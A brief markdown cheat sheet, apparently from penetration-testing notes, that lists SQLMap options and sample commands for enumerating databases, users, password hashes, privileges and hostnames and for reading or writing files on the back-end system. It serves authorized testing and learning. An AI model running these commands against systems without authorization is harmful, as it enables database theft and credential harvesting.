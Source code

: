# SQLMap

Target: At least one of these options has to be provided to define the target(s)

```
-u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
-d DIRECT           Connection string for direct database connection
-l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
-m BULKFILE         Scan multiple targets given in a textual file
-r REQUESTFILE      Load HTTP request from a file
-g GOOGLEDORK       Process Google dork results as target URLs
-c CONFIGFILE       Load options from a configuration INI filecode
```

```
sqlmap -r req.txt -p namePeople
```

SQLmap Tutorial Enumeration

```
--current-user      Retrieve DBMS current user
--current-db        Retrieve DBMS current database
--hostname          Retrieve DBMS server hostname
--is-dba            Detect if the DBMS current user is DBA
--users             Enumerate DBMS users
--passwords         Enumerate DBMS users password hashes
--privileges        Enumerate DBMS users privileges
```

Dump Everything

```
sqlmap -r req.txt -p namePeople --all
sqlmap -r req.txt -p namePeople --banner
```

Read All Databases

```
sqlmap -r req.txt -p namePeople --dbs
```

Read Current User

```
sqlmap -r req.txt -p namePeople --current-user
sqlmap -r req.txt -p namePeople --roles
```

Read Hostname

```
sqlmap -r req.txt -p namePeople --hostname
```

Read User Privileges

```
sqlmap -r req.txt -p namePeople --privileges
```

SQLmap File System Access - These options can be used to access the back-end database management system underlying file system

```
 --file-read=FILE..  Read a file from the back-end DBMS file system
 --file-write=FIL..  Write a local file on the back-end DBMS file system
 --file-dest=FILE..  Back-end DBMS absolute filepath to write to
```

Read File From Remote System

{% embed url="https://www.poplabsec.com/complete-sqlmap-tutorial/" %}
